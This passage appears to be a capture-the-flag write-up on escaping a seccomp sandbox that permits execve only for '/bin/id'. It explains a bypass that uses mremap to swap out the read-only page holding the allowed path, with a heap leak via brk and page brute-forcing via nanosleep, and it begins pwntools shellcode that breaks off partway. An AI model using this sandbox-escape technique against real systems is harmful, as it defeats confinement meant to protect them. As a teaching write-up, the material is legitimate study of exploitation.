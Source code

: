 ```bash
 0039: 0x35 0x00 0x02 0x0c0de000  if (A < 0xc0de000) goto 0042
 0040: 0x35 0x01 0x00 0x0c0df000  if (A >= 0xc0df000) goto 0042
 0041: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0042: 0x06 0x00 0x00 0x00000000  return KILL
```

A unusual condition is here.

```bash
0x5653d699b050 == filename
```

You can watch more details about this.

```nasm
loc_1639:
	mov     [rbp+var_80], 0
	mov     [rbp+var_78], 0
	mov     [rbp+var_70], 0
	mov     dword ptr [rbp+var_80+4], 1
	lea     rax, ALLOWED_EXE ; "/bin/id"
	mov     [rbp+var_78], rax
	mov     rax, [rbp+var_88]
	sub     rsp, 8
	push    [rbp+var_70]
	push    [rbp+var_78]
	push    [rbp+var_80]
	mov     ecx, 1
	mov     edx, 59
	mov     esi, 0
	mov     rdi, rax
	mov     eax, 0
	call    _seccomp_rule_add

.rodata:0000000000002050 ALLOWED_EXE     db '/bin/id',0          ; DATA XREF: install_sandbox+3B3↑o
```

when we use execve syscall, we must have a first argument with `ALLOWED_EXE` variable. But, it is located at `.rodata` area, so we can’t overwrite it. To do it, we have to allocate the memory mapped address or change privilege of the readonly data page. 

As you know, several allocation and chaning privilege syscalls(`mmap`, `munmap`, `mprotect`) are banned. So I searched every syscall which is relevant with it and found [mremap syscall](https://man7.org/linux/man-pages/man2/mremap.2.html). It reallocates a current page with new size and flags, so we can replace `ALLOWED_EXE` address with another page.

To use this syscall we have to know where the binary is mapped. First of all, when we call [brk syscall](https://man7.org/linux/man-pages/man2/brk.2.html), it returns current program break. Through this, we can leak the heap address. Next, we can bruteforce the proper page with [nanosleep syscall](https://man7.org/linux/man-pages/man2/nanosleep.2.html). Because when nanosleep has invalid address, it returns -1.

The exploit code is as follows:

```python
from pwn import *

context(arch='amd64', os='linux')
shell = '''
    // 1. get heap address (brk)
    mov rax, 12
    mov rdi, 0
    syscall 

    sub rax, 0x22000
    sub rax, 0x400
    mov rdi, rax
loop:
```